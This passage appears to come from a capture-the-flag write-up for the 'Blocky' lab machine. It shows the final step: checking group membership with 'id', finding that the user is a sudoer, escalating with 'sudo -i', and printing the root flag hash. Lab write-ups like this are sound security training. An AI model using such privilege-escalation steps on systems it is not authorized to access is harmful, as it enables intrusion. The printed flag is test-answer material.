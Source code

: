 Let's find the root flag.
```
notch@Blocky:/$ dir
bin  boot  dev  etc  home  initrd.img  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz  works
notch@Blocky:/$ cd root
-bash: cd: root: Permission denied
notch@Blocky:/$ 
```
We do not have root privileges. Searching online, we come across a tip to enumerate.
```
notch@Blocky:/$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)    
```
This shows that notch user is a sudo-er!

To login, we just have to use `-i`! To enumerate a user privileges, we could use `-l`.
```
notch@Blocky:/$ sudo -i
[sudo] password for notch: 
root@Blocky:~# dir
dhcp.sh  root.txt
root@Blocky:~# cat root.txt
0a9694a5b4d272c694679f7860f1cd5f
```
Got it!
